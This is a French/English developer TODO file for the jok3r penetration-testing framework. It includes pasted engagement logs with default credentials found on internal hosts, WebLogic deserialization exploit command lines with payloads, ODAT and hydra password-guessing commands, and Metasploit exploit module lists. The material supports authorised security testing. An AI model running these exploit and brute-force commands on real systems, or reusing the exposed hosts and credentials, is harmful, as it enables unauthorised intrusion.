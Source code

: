 =====
TODO
=====


Docker Environment
==================
* IMPORTANT: RE INSTALL odat !! 


BUG FIXES
===============================================================================

- db > services --up
  File "/root/jok3r/lib/requester/Condition.py", line 125, in __translate_up
    val = (value.lower() == 'true')

- db > service -S -> recherche par url semble pas marcher

- db > services - ip ranges selection bug





IMPROVEMENTS / NEW FEATURES
===============================================================================
- wappalyzer implementation avec versions => based on https://github.com/kanishk619/wappalyzer-python (working)

- Ctrl+C -> add possibility to switch fast mode on/off

- AttackProfiles:
    - weak-creds (weak, common, default)
        http -> changeme, htaccess bruteforce quick with common creds admin:admin, admin:password...
        mssql -> msdat passwordguesser sa:sa sa:
        oracle -> tnscmd pour sid, odat passwordguesser avec sid
        ajp -> ajp bf
        ...

    - advanced-creds-bruteforce
        (include weak-creds checks)

    - fast-scan
    - vuln-lookup-banner (require banner grabbing enabled or banner already retrieved in imported nmap scan)

    - web-scan-appserver
    - web-scan-cms
    - web-discovery
    - web-discovery-fast


- discovery-* checks:
    - appserver-wordlist
    - cms-wordlist
    - language-wordlist (per language => lots of work to produce wordlists for each language + add generic ie HTML, XML, LOG, TXT...)
    - general-minimal-wordlist
    - general-wordlist (raft directory)

- Auth types:
    - supported auth-type => only type that support various status/lvl (can be added in cmdline)
    - can accept other values (eg creds trouvés par changeme) and can be displayed in db>creds
    - method for creds retrieval in postrun

* Reporting HTML:
    * Template https://www.jqueryscript.net/menu/Bootstrap-Sidebar-Extension-With-jQuery-CSS-CSS3.html
    * https://www.jqueryscript.net/demo/Bootstrap-Sidebar-Extension-With-jQuery-CSS-CSS3/
    * http://www.finalhints.com/live-search-in-html-table-using-jquery/
    * At the end, prompt to open in browser like in eyewitness

* Do not re-run checks already done

* Nmap import: filter on nmap results to add






SMART MODULES / REGEXP
===============================================================================
- update regexp version number => ne doit pas finir par un point

- clusterd :
  InsecureRequestWarning)
11-19 03:53PM] Making GET request to https://lons00115973.euro.net.intra:443/console with arguments {'verify': False, 'timeout': 5.0}
[2018-11-19 03:53PM] Checking weblogic version 8.1 WebLogic Admin Console...
[2018-11-19 03:53PM] Making GET request to https://lons00115973.euro.net.intra:443/console with arguments {'verify': False, 'timeout': 5.0}
[2018-11-19 03:53PM] Matched 2 fingerprints for service weblogic
[2018-11-19 03:53PM]    WebLogic Admin Console (version 12)
[2018-11-19 03:53PM]    WebLogic Admin Console (https) (version 12)
[2018-11-19 03:53PM] Fingerprinting completed.
[2018-11-19 03:53PM] Loading auxiliary for 'weblogic'...
[2018-11-19 03:53PM]   Gather WebLogic info (--wl-info)
[2018-11-19 03:53PM]   List deployed apps (--wl-list)
[2018-11-19 03:53PM]   Obtain SMB hash (--wl-smb)
[2018-11-19 03:53PM] Finished at 2018-11-19 03:53PM


- changeme with empty creds:
[16:40:23] Configured protocols: http
[16:40:23] Loading creds into queue
[16:40:23] Jenkins body matched: <title>Dashboard \[Jenkins\]</title>
[16:40:23] Fingerprinting completed
[16:40:23] [+] Found Jenkins default cred : at http://10.243.134.22:8080/
[16:40:23] Scanning Completed
[16:40:24] Found 1 default credentials

Name     Username    Password    Target                      Evidence
-------  ----------  ----------  --------------------------  ----------
Jenkins                          http://10.243.134.22:8080/


- Add product detection in ajp:
        [>] [Recon][Check 02/02] tomcat-version > Fingerprint Tomcat version through AJP
        match auth lvl: True
        match specific: True
        [*] Run command #01

                                                                                                                                                                                                              
        cmd> python2.7 tomcat.py -v --port 8009 version 10.4.16.53                                                                                                                                            

        [2018-11-16 15:14:13.524] DEBUG    Getting resource at ajp13://10.4.16.53:8009/blablablablabla
        Apache Tomcat/7.0.27



- loubia successful :
[>] [Exploit][Check 07/11] weblogic-t3-deserialize-cve2015-4852 > Exploit Java deserialization in Weblogic T3(s) (CVE-2015-4852)
match auth lvl: True
match specific: True
[*] Command #01 is matching current target's context: {'server': ['weblogic']}

[?] Run command #01 ? [Y/n/t/w/q] 


                                                                                                                                                                                                      
cmd> echo "[~] Will try to ping local IP = 10.250.58.108"; echo "[~] Running tcpdump in background..."; sudo sh -c "tcpdump -U -i any -w /tmp/dump.pcap icmp &" ; python2.7 loubia.py 10.2.211.136 443 -s -o unix -c '/bin/ping -c 4 10.250.58.108' -v; python2.7 loubia.py 10.2.211.136 443 -s -o win -c 'ping -n 4 10.250.58.108' -v; echo "[~] Wait a little bit..."; sleep 3; PID=$(ps -e | pgrep tcpdump); echo "[~] Kill tcpdump"; sudo kill -9 $PID; sleep 2; echo "[~] Captured ICMP traffic:"; echo; sudo tcpdump -r /tmp/dump.pcap; echo "[~] Delete capture"; sudo rm /tmp/dump.pcap                   

[~] Will try to ping local IP = 10.250.58.108
[~] Running tcpdump in background...
tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
[INFO] Connecting to 10.2.211.136 port 443

[INFO] Sending t3 headers:
t3s 10.3.6
AS:255
HL:19


[INFO] Received t3 handshake response:
HELO:12.1.3.0.false
AS:2048
HL:19
MS:10000000


[INFO] Supplied payload: /bin/ping -c 4 10.250.58.108

[INFO] Final payload 001c2f62696e2f70696e67202d6320342031302e3235302e35382e313038

[INFO] Malicious packet sent

[INFO] Connecting to 10.2.211.136 port 443

[INFO] Sending t3 headers:
t3s 10.3.6
AS:255
HL:19


[INFO] Received t3 handshake response:
HELO:12.1.3.0.false
AS:2048
HL:19
MS:10000000


[INFO] Supplied payload: ping -n 4 10.250.58.108

[INFO] Final payload 001770696e67202d6e20342031302e3235302e35382e313038

[INFO] Target os is win: using "cmd.exe /c"

[INFO] Malicious packet sent

[~] Wait a little bit...
[~] Kill tcpdump
[~] Captured ICMP traffic:

reading from file /tmp/dump.pcap, link-type LINUX_SLL (Linux cooked)
15:54:24.036988 IP lons00115973.uk.net.intra > 10.250.58.108: ICMP echo request, id 1, seq 1, length 40
15:54:24.037023 IP 10.250.58.108 > lons00115973.uk.net.intra: ICMP echo reply, id 1, seq 1, length 40
15:54:25.038770 IP lons00115973.uk.net.intra > 10.250.58.108: ICMP echo request, id 1, seq 2, length 40
15:54:25.038825 IP 10.250.58.108 > lons00115973.uk.net.intra: ICMP echo reply, id 1, seq 2, length 40
15:54:26.040031 IP lons00115973.uk.net.intra > 10.250.58.108: ICMP echo request, id 1, seq 3, length 40
15:54:26.040071 IP 10.250.58.108 > lons00115973.uk.net.intra: ICMP echo reply, id 1, seq 3, length 40
[~] Delete capture


- example banners:
- 767 | 10.6.4.23      | 1521 | tcp   | oracle  | product: Oracle TNS listener version: 12.2.0.1.0 extrainfo: |     |         | 0      |       |
|       |                |      |       |         | unauthorized                                                |     |         |        |       |
| 18912 | 10.6.32.121    | 1521 | tcp   | oracle  | product: Oracle TNS listener version: 12.2.0.1.0 extrainfo: |     |         | 0      |       |
|       |                |      |       |         | unauthorized                                                |     |         |        |       |
| 19732 | 10.243.136.130 | 1521 | tcp   | oracle  | product: Oracle TNS listener version: 11.2.0.2.0 extrainfo: |     |         | 0      |       |
|       |                |      |       |         | unauthorized      

-  21503 | 10.190.10.32   | 443  | tcp   | http    | product: Apache Tomcat version: 8.5.8                 | https://10.190.10.32:443   |         | 0      |       |
| 21519 | 10.190.10.41   | 443  | tcp   | http    | product: Apache Tomcat/Coyote JSP engine version: 1.1 | https://10.190.10.41:443   |         | 0      |       |
| 21521 | 10.190.10.42   | 443  | tcp   | http    | product: Apache Tomcat/Coyote JSP engine version: 1.1 



- smartmodule -> webdav
    _http-iis-webdav-vuln: WebDAV is DISABLED


- MS17-010 not detected: ==> ) -> \) + LIKELY
  
        if re.search('Microsoft Windows system vulnerable to remote code execution \(MS08-067\)\s*(\r\n|\r|\n)\|\s*State: (LIKELY )?VULNERABLE', 
                     cmd_output, re.IGNORECASE):
            r.add_option('vuln-ms08-067', 'true')

        if re.search('Remote Code Execution vulnerability in Microsoft SMBv1 servers \(ms17-010\)\s*(\r\n|\r|\n)\|\s*State: (LIKELY )?VULNERABLE',
                     cmd_output, re.IGNORECASE):
            r.add_option('vuln-ms17-010', 'true')

        if re.search('SAMBA Remote Code Execution from Writable Share\s*(\r\n|\r|\n)\|\s*State: (LIKELY )?VULNERABLE', cmd_output, re.IGNORECASE):
            r.add_option('vuln-sambacry', 'true')



* angularjs -> boolean (angularjs can be used with php,asp...)
*  smartmodule -> webdav
    _http-iis-webdav-vuln: WebDAV is DISABLED

* - ftp patator update smart:
14:04:27 patator    INFO - 502   29     0.006 | anonymous:                         |     1 | PASS command not implemented.
14:04:39 patator    INFO - 421   53     0.008 | anonymous:                         |     1 | Too many users logged in, closing control connection 

* - ftp update smart, add anonymous creds when nmap detect + context req sur bruteforce:
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack HP JetDirect ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_d-w--w--w-   2 JetDirect  public         512 Feb 14  1999 PORT1 [NSE: writeable]

* - add postrun tnscmd_sid
- add re.IGNORECASE tns sid
- add sid detection:
[+] Data received by the database server: ''\x00 \x00\x00\x02\x00\x00\x00\x016\x00\x01\x08\x00\x7f\xff\x00\x01\x01]\x00 \r\x08\x00\x00\x00\x00\x00\x00\x00\x00\x01g\x00\x00\x06\x00\x00\x00\x00\x00(DESCRIPTION=(TMP=)(VSNNUM=153093632)(ERR=0)(ALIAS=LISTENER)(SECURITY=OFF)(VERSION=TNSLSNR for IBM/AIX RISC System/6000: Version 9.2.0.6.0 - Production)(START_DATE=10-NOV-2018 17:56:38)(SIDNUM=1)(LOGFILE=/apps/oracle/9.2.0/network/log/listener.log)(PRMFILE=/apps/oracle/adm/network/listener.ora)(TRACING=off)(UPTIME=23928489)(SNMP=OFF)(PID=7995588))\x02Q\x00\x00\x06\x00\x00\x00\x00\x00(ENDPOINT=(HANDLER=(HANDLER_MAXLOAD=0)(HANDLER_LOAD=0)(ESTABLISHED=0)(REFUSED=0)(HANDLER_ID=7A5359F37007-00C4-E053-9F32E94200C4)(PRE=any)(SESSION=NS)(DESCRIPTION=(ADDRESS=(PROTOCOL=tcp)(HOST=parva7301586)(PORT=1521))))),,(SERVICE=(SERVICE_NAME=METHFRP1_DGMGRL.world)(INSTANCE=(INSTANCE_NAME=METHFRP1)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,(SERVICE=(SERVICE_NAME=ROG2WDP0_DGMGRL.world)(INSTANCE=(INSTANCE_NAME=ROG2WDP0)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,(SERVICE=(SERVICE_NAME=RSS0WDP1)(INSTANCE=(INSTANCE_NAME=RSS0WDP1)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,''

- Check this case where sid=LISTENER ??

         cmd> python2.7 odat.py tnscmd -s 10.190.98.154 -p 1521 -d any --ping -v                                                                                                                               

        16:49:05 INFO -: alias list emptied
        16:49:05 INFO -: Data received thanks to the 'ping' cmd: '\x00A\x00\x00\x04\x00\x00\x00"\x00\x005(DESCRIPTION=(TMP=)(VSNNUM=0)(ERR=0)(ALIAS=LISTENER))'

        [1] (10.190.98.154:1521): Searching ALIAS on the 10.190.98.154 server, port 1521
        [+] 1 ALIAS received: ['LISTENER']. You should use this alias (more or less) as Oracle SID.

                                                                                                                                                                                                              


        [*] [SMART] Running post-check method "tnscmd_sid" ...
        [+] [SMART] New detected option: sid = LISTENER

        [?] Run command #02 ? [Y/n/t/w/q] q




- add postrun tnscmd_sid
- add re.IGNORECASE tns sid
- add sid detection:
[+] Data received by the database server: ''\x00 \x00\x00\x02\x00\x00\x00\x016\x00\x01\x08\x00\x7f\xff\x00\x01\x01]\x00 \r\x08\x00\x00\x00\x00\x00\x00\x00\x00\x01g\x00\x00\x06\x00\x00\x00\x00\x00(DESCRIPTION=(TMP=)(VSNNUM=153093632)(ERR=0)(ALIAS=LISTENER)(SECURITY=OFF)(VERSION=TNSLSNR for IBM/AIX RISC System/6000: Version 9.2.0.6.0 - Production)(START_DATE=10-NOV-2018 17:56:38)(SIDNUM=1)(LOGFILE=/apps/oracle/9.2.0/network/log/listener.log)(PRMFILE=/apps/oracle/adm/network/listener.ora)(TRACING=off)(UPTIME=23928489)(SNMP=OFF)(PID=7995588))\x02Q\x00\x00\x06\x00\x00\x00\x00\x00(ENDPOINT=(HANDLER=(HANDLER_MAXLOAD=0)(HANDLER_LOAD=0)(ESTABLISHED=0)(REFUSED=0)(HANDLER_ID=7A5359F37007-00C4-E053-9F32E94200C4)(PRE=any)(SESSION=NS)(DESCRIPTION=(ADDRESS=(PROTOCOL=tcp)(HOST=parva7301586)(PORT=1521))))),,(SERVICE=(SERVICE_NAME=METHFRP1_DGMGRL.world)(INSTANCE=(INSTANCE_NAME=METHFRP1)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,(SERVICE=(SERVICE_NAME=ROG2WDP0_DGMGRL.world)(INSTANCE=(INSTANCE_NAME=ROG2WDP0)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,(SERVICE=(SERVICE_NAME=RSS0WDP1)(INSTANCE=(INSTANCE_NAME=RSS0WDP1)(NUM=1)(INSTANCE_STATUS=UNKNOWN)(NUMREL=1))),,''

- Check this case where sid=LISTENER ??

         cmd> python2.7 odat.py tnscmd -s 10.190.98.154 -p 1521 -d any --ping -v                                                                                                                               

        16:49:05 INFO -: alias list emptied
        16:49:05 INFO -: Data received thanks to the 'ping' cmd: '\x00A\x00\x00\x04\x00\x00\x00"\x00\x005(DESCRIPTION=(TMP=)(VSNNUM=0)(ERR=0)(ALIAS=LISTENER))'

        [1] (10.190.98.154:1521): Searching ALIAS on the 10.190.98.154 server, port 1521
        [+] 1 ALIAS received: ['LISTENER']. You should use this alias (more or less) as Oracle SID.

                                                                                                                                                                                                              


        [*] [SMART] Running post-check method "tnscmd_sid" ...
        [+] [SMART] New detected option: sid = LISTENER

        [?] Run command #02 ? [Y/n/t/w/q] q



- ftp patator update smart:
14:04:27 patator    INFO - 502   29     0.006 | anonymous:                         |     1 | PASS command not implemented.
14:04:39 patator    INFO - 421   53     0.008 | anonymous:                         |     1 | Too many users logged in, closing control connection 

- ftp update smart, add anonymous creds when nmap detect + context req sur bruteforce:
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack HP JetDirect ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_d-w--w--w-   2 JetDirect  public         512 Feb 14  1999 PORT1 [NSE: writeable]



- changeme (ATTENTION, possibilite empty creds : ":"):

    
Loaded 113 default credential profiles
Loaded 324 default credentials

[13:37:15] Configured protocols: http
[13:37:15] Loading creds into queue
[13:37:18] Dell iDRAC body matched: <title>Integrated Dell Remote Access Controller
[13:37:18] Fingerprinting completed
[13:37:20] [+] Found Dell iDRAC default cred root:calvin at https://10.253.27.106:443/data/login
[13:37:20] Scanning Completed


[13:37:20] Found 1 default credentials

Name        Username    Password    Target                                Evidence
----------  ----------  ----------  ------------------------------------  ----------
Dell iDRAC  root        calvin      https://10.253.27.106:443/data/login




-----


[14:58:26] Invalid Apache Tomcat Host Manager default cred admin:tomcat at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred root:root at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred role1:role1 at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred tomcat:changethis at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred role:changethis at http://10.4.16.198:8080/host-manager/html
[14:58:26] Invalid Apache Tomcat Host Manager default cred admin:j5Brn9 at http://10.4.16.198:8080/host-manager/html
[14:58:26] [+] Found Apache Tomcat Host Manager default cred QCC:QLogic66 at http://10.4.16.198:8080/host-manager/html
[14:58:26] [+] Found Apache Tomcat default cred QCC:QLogic66 at http://10.4.16.198:8080/manager/html
[14:58:27] Invalid Apache Tomcat Host Manager default cred role1:tomcat at http://10.4.16.198:8080/host-manager/html
[14:58:27] Scanning Completed


[14:58:27] Found 2 default credentials

Name                        Username    Password    Target                                     Evidence
--------------------------  ----------  ----------  -----------------------------------------  ----------
Apache Tomcat Host Manager  QCC         QLogic66    http://10.4.16.198:8080/host-manager/html
Apache Tomcat               QCC         QLogic66    http://10.4.16.198:8080/manager/html








CHECKS CORRECTIONS
===============================================================================


- samba-rce-cve2015-0240 only if os = *linux*

- Correct path ysoserial:
/jok3r/toolbox/http/exploit-weblogic-cve2017-3248# python2.7 exploits/weblogic/exploit-CVE-2017-3248-bobsecq.py -t 10.2.211.136 -p 443 --ssl --check --ysopath /root/jok3r/toolbox/multi/ysoserial/ysoserial-master.jar


- Mettre /bin/bash -c pour utilisation de <<< + single quote !! dans :
root@kali:~/jok3r/toolbox/http/exploit-weblogic-cve2018-2893# echo "[~] Will try to ping local IP = 10.250.58.108"; echo "[~] Running tcpdump in background..."; sudo sh -c "tcpdump -U -i any -w /tmp/dump.pcap icmp &" ; java -jar ysoserial-cve-2018-2893.jar JRMPClient4 "/bin/ping -c 4 10.250.58.108" > /tmp/poc4.ser; python2.7 weblogic.py 10.2.211.136 443 /tmp/poc4.ser; echo "[~] Wait a little bit..."; sleep 3; PID=$(ps -e | pgrep tcpdump); echo "[~] Kill tcpdump"; sudo kill -9 $PID; sleep 2; echo "[~] Captured ICMP traffic:"; echo; sudo tcpdump -r /tmp/dump.pcap; echo "[~] Delete capture"; sudo rm /tmp/dump.pcap; rm /tmp/poc4.ser

-ODAT: simple quote après /bin/bash !!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!! (sinon $var non prise en compte)
/bin/bash -c 'export ORACLE_HOME=`file /usr/lib/oracle/*/client64/ | tail -n 1 | cut -d":" -f1`; export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib; export PATH=$ORACLE_HOME/bin:$PATH; echo $ORACLE_HOME; python2.7 odat.py passwordguesser -s 10.2.208.173 -p 1521 -d LISTENER -vv --force-retry --accounts-file accounts/accounts_multiple.txt'


- dirsearch : -t 40 --timeout=

- angularjs -> boolean (angularjs can be used with php,asp...)


- tool ajpy=> add option --old-version + list applications

- ajp settings: change dir wordlists
tool        = ajpy
command_1   = python2.7 tomcat.py -v --port [PORT] bf -U [WORDLISTSDIR]/services/http/creds/app-servers/tomcat-usernames.txt -P [WORDLISTSDIR]/services/http/creds/app-servers/tomcat-passwords.txt
postrun     = ajpy_valid_creds

- add --timeout to dirsearch

- odat add -v : python2.7 odat.py tnscmd -s 10.14.17.218 -p 1575 -d any --ping -v

- Replace patator by hydra (more mature, easier to parse outputs, better output)

- DOMI-OWNED  => fonctionne sur 5, 6 et v8

- bug dirhunt
    cmd> dirhunt https://www.correspondant-assurance.fr/bnppere                                                                                                                                           

    Traceback (most recent call last):
      File "/usr/local/bin/dirhunt", line 11, in <module>
        load_entry_point('dirhunt==0.5.1', 'console_scripts', 'dirhunt')()
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 484, in load_entry_point
        return get_distribution(dist).load_entry_point(group, name)
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 2707, in load_entry_point
        return ep.load()
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 2325, in load
        return self.resolve()
      File "/usr/lib/python3/dist-packages/pkg_resources/__init__.py", line 2331, in resolve
        module = __import__(self.module_name, fromlist=['__name__'], level=0)
      File "/usr/local/lib/python3.6/dist-packages/dirhunt-0.5.1-py3.6.egg/dirhunt/management.py", line 13, in <module>
        from dirhunt.crawler import Crawler
      File "/usr/local/lib/python3.6/dist-packages/dirhunt-0.5.1-py3.6.egg/dirhunt/crawler.py", line 16, in <module>
        from dirhunt.sessions import Sessions
      File "/usr/local/lib/python3.6/dist-packages/dirhunt-0.5.1-py3.6.egg/dirhunt/sessions.py", line 5, in <module>
        from proxy_db.models import Proxy
    ModuleNotFoundError: No module named 'proxy_db.models'


- ./optionsbleed -n 40 -a -u https://www.correspondant-epargne.fr/tpe 
No response , Normal ?

- add exploitations avec clusterd

- [check_mysql-interesting-tables-columns] add context


* odat add -v : python2.7 odat.py tnscmd -s 10.14.17.218 -p 1575 -d any --ping -v

- Add option --webdir-wordlist for check discovery-general-wordlist 




CHECKS ADDING
===============================================================================
- https://github.com/SecWiki/CMS-Hunter
- Add Hydra

- Jenkins scripts:
Attention; TARGETURI / et /jenkins/

msf auxiliary(scanner/http/jenkins_command) > show options 

Module options (auxiliary/scanner/http/jenkins_command):


msf auxiliary(scanner/http/jenkins_command) > run

[+] [2018.11.19-14:37:28] 10.2.153.123:8080     nt authority\system
[*] [2018.11.19-14:37:28] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/jenkins_command) > 
msf auxiliary(scanner/http/jenkins_command) > 
msf auxiliary(scanner/http/jenkins_command) > set TARGETURI /jenkins/
TARGETURI => /jenkins/
msf auxiliary(scanner/http/jenkins_command) > run

[-] [2018.11.19-14:37:51] 10.2.153.123:8080     This system is not running Jenkins-CI at /jenkins/
[*] [2018.11.19-14:37:51] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/jenkins_command) > set TARGETURI /
TARGETURI => /

- Jenkins deserialize

- add exploit/linux/misc/jenkins_java_deserialize (attention: os linux)
- add exploit/windows/misc/ibm_websphere_java_deserialize (os win)
- add auxiliary/scanner/http/jenkins_login
- add exploit/windows/misc/ibm_websphere_java_deserialize
- add https://github.com/Coalfire-Research/java-deserialization-exploits (websphere rce, jenkins rce...)
- add exploit/multi/http/jenkins_script_console
- add msfmodules for different appservers.....
- RCE Tomcat CVE-2017-12617 /usr/share/exploitdb/exploits/jsp/webapps/42966.py
    WARNING: Add verify=False !
            if 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                print bcolors.WARNING+url+' it\'s Vulnerable to CVE-2017-12617'+bcolors.ENDC
                print bcolors.WARNING+url+"/"+checker+bcolors.ENDC
                
        else:
            print 'Not Vulnerable to CVE-2017-12617 '


- add bruteforce htaccess hydra if 401 unauthorized returned in headers
hydra -l admin -P ~/github/jok3r/wordlists/passwords/pass_medium.txt -e ns -t 10 -f -s -v -V 10.190.136.194  http-get /
> GET / HTTP/1.1
> Host: 10.190.136.194
> User-Agent: curl/7.58.0
> Accept: */*
> 
< HTTP/1.1 401 Unauthorized
< Content-Type: text/html
< Server: Microsoft-IIS/8.0
< WWW-Authenticate: Negotiate
< WWW-Authenticate: NTLM
< X-Powered-By: ASP.NET
< Date: Fri, 23 Nov 2018 10:15:48 GMT
< Content-Length: 1293


- Sharepoint -> https://github.com/TestingPens/SPartan

- check ms17-010 exploit multi platform

- add ssh cve enum
- add ssh libssh vuln

- ftp postexploit list dir

* Weblogic CVE-2018-2628 https://github.com/tdy218/ysoserial-cve-2018-2628
* https://github.com/chadillac/mdns_recon
* nfsshell (sudo apt-get install libreadline-dev ; make)
* https://github.com/hegusung/RPCScan.git
* https://www.magereport.com
* https://github.com/AlisamTechnology/PRESTA-modules-shell-exploit/blob/master/PRESTA-shell-exploit.pl
* https://github.com/breenmachine/JavaUnserializeExploits
* https://github.com/DanMcInerney/pentest-machine

* Better exploit for MS17-010 (support for more win versions, only Win7 and 2008 R2 for now)

* For all bruteforce with 'auth_status': NO_AUTH -> create command with username known 

* cve jquery
* cve ssh
* vulners-lookup
* cvedetails-lookup
* wordlists per language
* jndiat
* check https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html
* correct start module http 


* Java-RMI -> handle case windows ping -n


- Sharepoint -> https://github.com/TestingPens/SPartan

- tool ajpy=> add option --old-version + list applications

* Improve wordlist quality:
    * passwords
    * wordlist per language
    * wordlist per cms
    * wordlist per server
    * web files/directories:
        * https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content
        * https://github.com/xajkep/wordlists
        * https://www.netsparker.com/blog/web-security/svn-digger-better-lists-for-forced-browsing/
        * Administration: https://github.com/fnk0c/cangibrina/tree/master/wordlists



WORDLISTS ADDING
===============================================================================

- Idea for wordlist services creds: https://github.com/x90skysn3k/brutespray/tree/master/wordlist

- Very Minimalist dirs wordlists

root@kali:~/jok3r/toolbox/http/dirsearch# cat dirs_minimalist.txt 
account
accounts
adm
admin
_admin
Admin
ADMIN
admin2
adminarea
administrator
api
app
appli
application
applis
auth
back
backup
_backup
bak
cache
_cache
common
component
components
conf
config
configuration
control
controller
controllers
core
data
debug
dev
development
doc
docs
document
download
downloads
Downloads
en
error
file
files
Files
fr
ftp
help
html
image
images
img
inc
Inc
include
_include
includes
_includes
Includes
install
lib
manager
modules
old
page
pages
pdf
phpmyadmin
plugins
priv
_priv
_private
pub
public
_public
report
reports
require
script
scripts
secure
service
services
share
site
sites
sql
src
stat
stats
status
temp
Temp
template
templates
test
Test
test1
test2
testing
tests
tmp
tool
tools
tpl
update
updates
upload
uploads
Uploads
user
users
util
utils
webadmin
WEB-INF
www
xml
xmlrpc












- jok3r-script for oracle install:

  - change url + reinstall
  wget https://github.com/koutto/jok3r-scripts/raw/master/oracle/odat-dependencies/oracle-instantclient12.2-sqlplus_12.2.0.1.0-2_amd64.deb
wget https://github.com/koutto/jok3r-scripts/raw/master/oracle/odat-dependencies/oracle-instantclient18.3-basic_18.3.0.0.0-2_amd64.deb
wget https://github.com/koutto/jok3r-scripts/raw/master/oracle/odat-dependencies/oracle-instantclient18.3-devel_18.3.0.0.0-2_amd64.deb
sudo dpkg -i oracle-instantclient18.3-basic_18.3.0.0.0-2_amd64.deb
sudo dpkg -i oracle-instantclient12.2-sqlplus_12.2.0.1.0-2_amd64.deb

- add in dockerfile:

  export ORACLE_HOME=`file /usr/lib/oracle/*/client64/ | tail -n 1 | cut -d':' -f1`
  export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
  export PATH=$ORACLE_HOME/bin:$PATH
  
 - autre bug:
17:17:05 DEBUG -: Try to connect with APPLYSYSPUB/<UNKNOWN>
17:17:05 DEBUG -: Oracle connection string: APPLYSYSPUB/<UNKNOWN>@10.190.98.115:1521/LISTENER
